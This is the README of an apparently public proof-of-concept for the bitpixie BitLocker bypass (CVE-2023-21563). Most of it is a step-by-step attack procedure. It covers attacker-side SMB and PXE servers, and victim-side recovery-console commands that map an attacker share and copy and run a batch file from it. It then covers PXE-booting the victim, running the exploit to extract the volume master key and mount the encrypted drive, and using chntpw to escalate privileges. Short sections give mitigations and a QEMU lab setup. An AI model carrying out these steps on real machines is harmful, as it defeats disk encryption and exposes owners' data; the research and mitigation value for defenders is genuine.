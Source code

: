 # bitpixie Proof of Concept

## General concept of the attack
The Bitpixie bug was originally discovered by [Rairii](https://github.com/Wack0) and assigned CVE-2023-21563.
The first public demonstration of the full attack was performed by th0mas at 38c3: ["Windows BitLocker: Screwed without a Screwdriver"](https://media.ccc.de/v/38c3-windows-bitlocker-screwed-without-a-screwdriver).
Large parts of this repository are based on his work, that he also published as an article: ["Windows BitLocker -- Screwed without a Screwdriver"](https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver/) This article also explains potential mitigations.

[Marc André Tanner](https://github.com/martanne/bitpixie) also implemented the bitpixie exploit, you might want to check out his repository!

## Prerequisites and building process
In order to carry out this attack, the encrypted computer must meet certain requirements.
- It must use BitLocker without pre-boot authentication.
- It must be able to boot in PXE mode. Ideally, the PXE boot option is not disabled in the bios. On some systems, this attack may work even if PXE boot is disabled, as PXE boot can be enabled by connecting an external network card.
- The PCR Validation must not include `4`. Check with `manage-bde -protectors -get c:` This is default behaviour.

### Software requirements for the attacker machine
The following packages have to be installed on the attacker machine:
- dnsmasq
- impacket-smbserver
- (hivexregedit)

For debian based systems:
```bash
sudo apt install dnsmasq libwin-hivex-perl python3-impacket
```

To build the initramfs, clone the repository and execute build.sh:
```
$ git clone --depth 1 https://github.com/andigandhi/bitpixie
$ cd bitpixie
$ ./build.sh [-d|--debug]
```

See the chapter [`Building the initrd`](#building-the-initrd) for more
information.

> [!note]
> The repository with a prebuilt alpine initramfs can be found in the releases section.

## How to perform the attack
The attack consists of two separate steps.
First, a modified BCD configuration file must be created specifically for the victim.
The next step is to boot the target via PXE using the modified BCD file, so that the VMK can be extracted from memory.

The TFTP server can be started with the script `start-server.sh`:
```
Starting the SMB server for exchanging the BCD file:
$ ./start-server.sh smb <interface>

Starting the TFTP and DHCP server for PXE booting:
$ ./start-server.sh pxe <interface>
```

To boot into the linux system through PXE-boot, press Restart while holding down the Shift key.
This will reboot the machine into Advanced Boot Options.

### Extracting the BCD file
The BCD file can be exported using `bcdedit` on the victims machine.
If you are already local Administrator you can directly extract and modify the BCD file.

Otherwise you can open a cmd.exe from within the Advanced Boot Options by clicking *Troubleshoot -> Advanced Option -> Command line (-> Skip this drive)* and enter the following commands.

```
wpeutil initializenetwork
net use S: \\10.13.37.100\smb
cd %TEMP%
copy S:\create-bcd.bat .
.\create-bcd.bat
```

The modified BCD file will be directly moved to the attacker machine so you can directly start performing the actual bitpixie attack.

![BCD File Transfer](images/grab-bcd-smb.gif)

### Breaking BitLocker
Start the TFTP server in exploit mode: `./start-server.sh exploit <interface>`.

In the Advanced Boot Options click on `Use a device` and select IPv4 PXE Boot.
The PXE boot process should start and finally drop into the Alpine initramfs.

Log in as root and perform the bitpixie exploit on the victim machine:
```
initrd:~# run-exploit /dev/sda3
```
The BitLocker partition should now be mounted at /root/mnt.
If it did not work, reboot and try it again. Sometimes the VMK is not detected / overwritten.

> [!note]
> The alpine initramfs also has [chntpw](https://pkgs.alpinelinux.org/package/edge/community/x86_64/chntpw) installed for easy privilege escalation!

Don't forget to unmount the file system after performing your changes: `umount /root/mnt`!

![VMK Extraction](images/run-exploit.gif)


## Mitigations that work
- Use BitLocker with Pre Boot Authentication (TPM+PIN) (Preferred way, since it also prevents a bunch of other attacks against BitLocker.)
- Apply patch [KB5025885](https://support.microsoft.com/en-us/topic/how-to-manage-the-windows-boot-manager-revocations-for-secure-boot-changes-associated-with-cve-2023-24932-41a975df-beb2-40c1-99a3-b3ff139f832d#bkmk_mitigation_guidelines) as described in the Microsoft guideline.
- Disable UEFI network stack to completely disable PXE (If none of the above is possible)


## How to set up a test environment
### Setting up QEMU
This exploit can be tested using QEMU.

I installed Windows 11 ([Tiny 11](https://github.com/ntdevlabs/tiny11builder)) on a newly created disk, installed all security patches and activated BitLocker.
Before creating the virtual machine, I had to edit the loader and change it to `/usr/share/OVMF/OVMF_CODE_4M.ms.fd` as shown below.

![VirtManager Settings](images/qemu-machine-settings.png)

After enabling BitLocker, change the model type of the network interface to `virtio` and set the ROM to "no" (see [this bug](https://bugs.launchpad.net/maas/+bug/1789319)).
The XML of the network interface should look lke this:
```
<interface type="network">
  <model type="virtio"/>
  <rom enabled="no"/>
  [...]
</interface>
```

### Building the initrd
The complete `bitpixie-initramfs[.gz,.xz]` can be built using the script
`./build [-d|--debug]`. If the `--debug` flag is used the temporary rootfs
directory will be not deleted in order to manually examinate it via e.g. `sudo
[chroot|arch-chroot] /path/to/temp/initramfs sh`. The final gzipped initramfs
is automatically transfered to the `pxe-server/` directory.

The initramfs can be tested locally on the terminal via the example QEMU
command:

```
# Install qemu-system-x86_64 (minimal configuration)
# $ apt install qemu-system-x86
# Note: For more information see e.g. https://wiki.ubuntuusers.de/QEMU/
qemu-system-x86_64 \
  -m 1G -enable-kvm  \
  -kernel pxe-server/linux \
  -initrd pxe-server/bitpixie-initramfs \
  -append "console=ttyS0" \
  -nographic
```

> [!NOTE]  
> There are currently two user: `root` and `bitpix`. Login as `bitpix`.

If a simple QEMU ethernet connection is required, the following flags can be
added:

```
# Extend QEMU with network capacity
# For more information see:
#   https://wiki.gentoo.org/wiki/QEMU/Options#Networking
#   https://wiki.archlinux.org/title/QEMU#Networking
#   https://wiki.qemu.org/Documentation/Networking
#
qemu-system-x86_64 \
  ... \
  -netdev user,id=net0 -device virtio-net-pci,netdev=net0
```

> [!NOTE]  
> If a specific functionality is missing then this could be due to a not loaded
> driver. All loaded drivers can be displayed with `lsmod` and loaded with
> `modprobe DRIVER`.
> To brutally load all modules (and probably trigger kernel crashes) the
> following command can be used:
> ```
>   $ find /lib/modules/5.14.0-1-amd64/ -name '*.ko' -exec sh -c 'modprobe $(basename {} | cut -d'.' -f1)' sh {} \;
> ```

## Alternative Method of obtaining the BCD (not recommended)
Boot the victim system into the initramfs using PXE boot: `./start-server.sh get-bcd <interface>`
On the victim machine you can identify the drive containing the Windows installation (often /dev/sda).

On the attacker machine execute the BCD extractor script:
```
$ ./grab-bcd.sh /dev/sda
[+] Info: Grabbing disk and partition GUIDs via SSH...
[...]
[+] Info: Created modified BCD file: pxe-server/Boot/BCD
```
This script obtains the disk and partition GUID from the victim computer and creates a registry patch file.
Afterwards the BCD-file gets patched and copied to pxe-server/Boot/BCD.
> [!note]
> The template file file needs to be served as `Boot\BCD` via PXE.

Now you are ready to perform the actual attack!
Reboot the victim system into the startup settings again.

